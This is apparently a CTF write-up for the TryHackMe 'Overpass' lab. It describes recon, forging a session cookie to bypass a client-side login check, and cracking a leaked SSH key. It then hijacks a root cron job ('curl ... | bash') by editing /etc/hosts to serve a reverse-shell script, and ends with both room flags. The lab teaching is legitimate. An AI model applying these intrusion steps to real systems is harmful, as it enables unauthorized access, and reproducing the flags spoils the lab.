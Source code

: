 # Overpass

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
```

well first enumeration got us the minimum

Meaning we have to focus on the websie itself

let's focus on their about us page first

```
Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant
```

potential usernames? not sure...

Shall we bruteforce the admin page we found? is it anything in their source code?

Lets focus on admin page then..it's an easy room it can't be something too complicated

Oh the javascript login function

```
async function login() {
const usernameBox = document.querySelector("#username");
const passwordBox = document.querySelector("#password");
const loginStatus = document.querySelector("#loginStatus");
loginStatus.textContent = ""
const creds = { username: usernameBox.value, password: passwordBox.value }
const response = await postData("/api/login", creds)
const statusOrCookie = await response.text()
if (statusOrCookie === "Incorrect credentials") {
loginStatus.textContent = "Incorrect Credentials"
passwordBox.value=""
} else {
Cookies.set("SessionToken",statusOrCookie)
window.location = "/admin"
}
}
```

On successful login a SessionToken cookie is created

lets craft it ourselves..as long as the cookie is named SessionToken we pass

```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
```

haha poor james...ok lets crack his key with john and rockyou

```
james13 (james_id_rsa)

james:james13
```

If james forgets that passphrase too he is a moron

```
$chmod 600 james_id_rsa

$ssh James@10.10.72.200 -i james_id_rsa
Enter passphrase for key 'james_id_rsa':
Connection closed by 10.10.72.200 port 22
```

ugh...what is this again???? yeah it was serverfault error

I just had to wait (or restart the macine) and now it works

```
james@overpass-prod:~$ cat user.txt
thm{james_got_a_new_job}
```

got user FLAG

another file there

```
james@overpass-prod:~$ cat todo.txt
To Do:

> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
> Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
> They're not updating on the website
```

lets privEsc before we got problems again

## Prviledge Escalation

`sudo -l` won't work this time beacause we dont have james sudo password

He say he used overpass to store it

it seems like we need to use the overpass build script

I already downloaded it in soure files earlier

```
james@overpass-prod:~$ find / -name 'overpass' 2> /dev/null
/usr/bin/overpass
```

ok they got overpass installed

```
overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System saydrawnlyingpicture
```

we retrieve system password

```
sudo -l
[sudo] password for james:
Sorry, user james may not run sudo on overpass-prod.
```

lmao that was a big waste of my time

well lets uplaod linPEAS with a python server and get real informations

```
╔══════════╣ Cron jobs
...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

- - - - - root curl overpass.thm/downloads/src/buildscript.sh | bash

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
/home/james
/run/lock
/run/screen
/run/screen/S-james
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/tmp
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.font-unix
#)You_can_write_even_more_files_inside_last_directory
```

Basically a cron runs every 1 minutes as root and do a curl to `overpass.thm`

if its not in dns its a vhost and the `/etc/hosts` is writable

Amazing...we use nano to point overpass.thm to our ip address

```
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.8.226.203 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

That means every 1 min the cron gonna run at /myserverfolder/downloads/src/buildscript.sh

We just have to make that directory structure in a www folder and make MY buildscript.sh spawn a reverse shell

we catch that connection in another netcat listenner

1 minute after we are root

```
root@overpass-prod:~# cat root.txt
cat root.txt
thm{control_over_the_host_server}
```

For an easy room that privilege escalation was...tedious...but so great

It was so cool making the run from or own server
